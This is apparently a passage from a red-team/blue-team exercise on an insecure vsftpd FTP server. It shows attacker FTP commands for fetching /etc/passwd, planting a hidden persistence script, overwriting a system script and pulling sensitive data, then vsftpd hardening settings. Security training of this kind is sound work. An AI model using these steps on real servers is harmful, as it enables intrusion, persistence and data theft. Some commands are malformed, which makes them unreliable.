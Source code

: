 ```bash
ftp> cd /etc
ftp> get passwd
```
### Phase 4: Persistence
```bash
# Create hidden directories
ftp> mkdir .hidden
ftp> put persistence-script.sh .hidden/
# Modify existing scripts
ftp> put malicious-code.sh /usr/local/bin/ftp-monitor.sh
```
### Phase 5: Data Exfiltration
```bash
# Archive and download sensitive data
ftp> put tar-czf sensitive-data.tar.gz /srv/ftp/
ftp> get sensitive-data.tar.gz
```
## Blue Team
### Phase 1: Immediate Actions

    Disable Anonymous Access

```conf
anonymous_enable=NO
anon_upload_enable=NO
anon_mkdir_write_enable=NO
```
#### Strengthen File Permissions

```conf
local_umask=077
anon_umask=077
chroot_local_user=YES
```
#### Enable Logging and Monitoring

```bash
# Verify logs are working
tail -f /var/log/vsftpd.log
/usr/local/bin/ftp-monitor.sh
```
### Phase 2: Access Control

#### Implement User Restrictions

```conf
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
userlist_deny=NO
```
#### Create Allow List
